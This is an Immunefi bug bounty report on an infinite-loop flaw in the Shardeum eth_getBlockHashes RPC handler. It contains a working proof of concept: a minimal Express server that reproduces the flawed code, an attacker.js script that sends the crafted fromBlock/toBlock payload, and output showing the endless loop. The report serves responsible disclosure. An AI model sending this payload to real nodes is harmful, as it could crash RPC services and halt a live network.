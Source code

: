 
# Infinite loop in shardeum

Submitted on Jul 31st 2024 at 21:32:23 UTC by @riproprip for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33872

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- RPC API crash affecting projects with greater than or equal to 25% of the market capitalization on top of the respective layer
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
Infinite loop in shardeum handler for eth_getBlockHashes route. 


## Vulnerability Details
The eth_getBlockHashes handler does not correctly constrain the fromBlock / toBlock query parameters. This bug allows to put the process into an infinite for loop. That crashes the process that is answering this request.

The relevant function is in https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/index.ts#L1275-L1295.


I would have loved to suss out the impact a little more, but can't find instructions that make the repos run (on my machine).
Following assumptions probably lead the way in deciding if this is just an rpc crash or can take down every node in the network simply by sending a request:
* handlers behind the externalApiMiddleware are exposed to the outside
* The attacker is allowed to send one request for every OS process running the eth_getBlockHashes handler
* The OS processes running shardeum/src/index.ts L1275-1295 is also responsible/relevant to the network confirming new transaction.

If above assumption don't all hold up or are not enough to  qualify for the "prevent network from confirming transactions" impact, please keep in mind the following about infinite loops.:
* They don't produce an error (hard to monitor for)
* The process does not die (hard to recover from)
* The process uses up as much of the CPU as the OS will allow

This in effect could take down other processes running on the server, depending on the configuration of the node, and the hardware.

## Impact Details
The process handling a malicious request gets stuck in an infinite loop. 

## Fix suggestion
Make sure the distance between fromBlock and toBlock in the eth_getBlockHashes handler something meaningful.

## Proof of concept
# code
## Minimal code to reproduce shardeum/src/index.ts (save as server.js)
``` 
const express = require('express');
const app = express();
const port = 3000;

// external data to GET handler
let ShardeumFlags = {maxNumberOfOldBlocks: 99};
let latestBlock = 999;
let readableBlocks= [];

// original typescript code
/* 
  shardus.registerExternalGet('eth_getBlockHashes', externalApiMiddleware, async (req, res) => {
    let fromBlock: any = req.query.fromBlock
    let toBlock: any = req.query.toBlock

    if (fromBlock == null) return res.json({ error: 'Missing fromBlock' })
    if (typeof fromBlock === 'string') fromBlock = parseInt(fromBlock)
    if (fromBlock < latestBlock - ShardeumFlags.maxNumberOfOldBlocks) {
      // return max 100 blocks
      fromBlock = latestBlock - ShardeumFlags.maxNumberOfOldBlocks + 1 // 1 is added for safety
    }
    if (toBlock == null) toBlock = latestBlock
    if (typeof toBlock === 'string') fromBlock = parseInt(toBlock)
    if (toBlock > latestBlock) toBlock = latestBlock

    const blockHashes = []
    for (let i = fromBlock; i <= toBlock; i++) { !!!!!! LOOP RUNS FOREVER WITH RIGHT INPUTFOREVER
      const block = readableBlocks[i]
      if (block) blockHashes.push(block.hash)
    }
    return res.json({ blockHashes, fromBlock, toBlock })
  })
*/

// translated GET handler as minimal expressjs
let fn = async (req, res) => {
  let fromBlock/*: any*/ = req.query.fromBlock
  let toBlock/*: any*/ = req.query.toBlock

  if (fromBlock == null) return res.json({ error: 'Missing fromBlock' })
  if (typeof fromBlock === 'string') fromBlock = parseInt(fromBlock)
  if (fromBlock < latestBlock - ShardeumFlags.maxNumberOfOldBlocks) {
    // return max 100 blocks
    fromBlock = latestBlock - ShardeumFlags.maxNumberOfOldBlocks + 1 // 1 is added for safety
  }
  if (toBlock == null) toBlock = latestBlock
  if (typeof toBlock === 'string') fromBlock = parseInt(toBlock)
  if (toBlock > latestBlock) toBlock = latestBlock

  const blockHashes = []
  for (let i = fromBlock; i <= toBlock; i++) { /// !!!!!! LOOP RUNS FOREVER WITH RIGHT INPUT
  	console.log('ITERATION', i); // !!!!! see?
    const block = readableBlocks[i]
    if (block) blockHashes.push(block.hash)
  }
  return res.json({ blockHashes, fromBlock, toBlock })
};

// express code
app.get('/', fn)
app.listen(port, () => {
  console.log(`Server running at http://localhost:${port}`);
});
```


## attack code (save as attacker.js)
```

const axios   = require("axios");
const fs      = require("fs");
const payload = "fromBlock=null&toBlock=-99999999999999999";

function attack() {
	axios.get("http://localhost:3000/?" + payload, {timeout: 1000})
     .then(
	     res => {
		     console.log('Status ', res.status);
		     console.log(res.data);
		     process.exit();
	     },
	     err => {console.log('ERR', err.message);}
     )
}

attack();
```

# run
## server
```
npm install express
node server.js
```
## attacker
```
npm install axios
node attacker.js
```

# output
## server
```
Server running at http://localhost:3000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
.... # this keeps on going forever
```

## client
```
ERR timeout of 1000ms exceeded
```